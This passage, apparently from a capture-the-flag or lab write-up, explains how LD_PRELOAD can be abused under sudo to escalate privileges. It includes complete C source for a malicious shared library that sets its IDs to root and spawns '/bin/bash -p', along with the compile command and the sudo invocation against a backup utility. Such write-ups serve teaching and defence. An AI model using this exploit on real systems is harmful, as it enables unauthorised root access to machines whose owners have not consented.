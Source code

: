 LD_PRELOAD is an environment variable in Linux that allows users to specify a shared library (.so file) to be loadedÂ _before_Â all other system libraries during program execution. This mechanism is typically used for debugging or overriding specific functions in existing libraries. However, in a security context, it can be abused for privilege escalation if an attacker controls theÂ `LD_PRELOAD`Â variable and can execute a binary with elevated privileges (e.g., via sudo). By crafting a malicious shared library that defines functions with the same names as those used by the target binary (e.g.,Â `system()`,Â `exec()`, or even constructor functions), an attacker can hijack the programâ€™s execution flow. When the binary runs, it loads the attackerâ€™s library first, executing arbitrary code with the privileges of the target process, in this case, rootâ€”due to theÂ `sudo`Â permissions granted toÂ `/usr/bin/sky_backup_utility`.


Knowing all this, we can get a root shell by doing this:

1. Creating a malicious `exploit.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BOLD "\033[1m"
#define RED  "\033[31m"
#define RESET "\033[0m"

void _init() {
    fprintf(stderr, BOLD RED"[+]" RESET" Unsetting LD_PRELOAD\n");
    unsetenv("LD_PRELOAD");

    fprintf(stderr, BOLD RED"[+]" RESET" Setting EUID/EGID to 0\n");
    if(setgid(0) < 0) { 
        perror("setgid"); 
        _exit(1); 
    }
    if(setuid(0) < 0) { 
        perror("setuid"); 
        _exit(1); 
    }
    
    fprintf(stderr, BOLD RED"[+]" RESET" Spawning root shell!\n");
    system("/bin/bash -p");
    fprintf(stderr, BOLD RED"[!]" RESET" Shell execution failed!\n");
    _exit(0);
}
```

2. Compiling it:

```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

3. Executing the Binary with LD_PRELOAD

```
sudo LD_PRELOAD=./exploit.so /usr/bin/sky_backup_utility
```

